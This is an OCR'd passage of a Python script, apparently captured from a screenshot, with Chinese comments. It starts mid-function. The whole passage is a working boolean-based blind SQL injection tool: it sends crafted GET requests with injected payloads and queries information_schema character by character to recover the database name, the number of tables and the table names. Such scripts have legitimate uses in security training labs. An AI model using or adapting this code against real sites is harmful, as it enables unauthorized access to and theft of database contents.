 ```python
		db_payload=url+"' and (length(database())=%d)--+"%num
		r=requests.get(db_payload)
		if str in r.text:
			db_length=num
			print("[+]数据库长度：%d\n"%db_length)
			db_name(db_length) #进行下一步，测试库名
			break
		else:
			num += 1

def db_name(db_length):
	print("[-]开始测试数据库名.......")
	db_name=''
	str_list=ascii_str()
	for i in range(1,db_length+1):
		for j in str_list:
			db_payload=url+"' and (ord(mid(database(),%d,1))='%s')--+"%(i,ord(j))
			r=requests.get(db_payload)
			if str in r.text:
				db_name+=j
				break
	print("[+]数据库名：%s\n"%db_name)
	tb_piece(db_name) #进行下一步，测试security数据库有几张表
	return db_name
	
def tb_piece(db_name):
	print("开始测试%s数据库有几张表........"%db_name)
	for i in range(100): #猜解库中有多少张表，合理范围即可
		tb_payload=url+"' and %d=(select count(table_name) from information_schema.tables where table_schema='%s')--+"%(i,db_name)
		r=requests.get(tb_payload)
		if str in r.text:
			tb_piece=i
			break
	print("[+]%s库一共有%d张表\n"%(db_name,tb_piece))
	tb_name(db_name,tb_piece) #进行下一步，猜解表名


def tb_name(db_name,tb_piece):
	print("[-]开始猜解表名.......")
	table_list=[]
	for i in range(tb_piece):
		str_list=ascii_str()
		tb_length=0
		tb_name=''
		for j in range(1,20): #表名长度，合理范围即可
			tb_payload=url+"' and (select length(table_name) from information_schema.tables where table_schema=database() limit %d,1)=%d--+"%(i,j)
			r=requests.get(tb_payload)
			if str in r.text:
				tb_length=j
				print("第%d张表名长度：%s"%(i+1,tb_length))
				for k in range(1,tb_length+1): #根据表名长度进行截取对比
					for l in str_list:
						tb_payload=url+"' and (select ord(mid((select table_name from information_schema.tables where table_schema=database() limit %d,1),%d,1)))=%d--+"%(i,k,ord(l))
						r=requests.get(tb_payload)
						if str in r.text:
							tb_name+=l
				print("[+]：%s"%tb_name)
				table_list.append(tb_name)
				break
	print("\n[+]%s库下的%s张表：%s\n"%(db_name,tb_piece,table_list))
```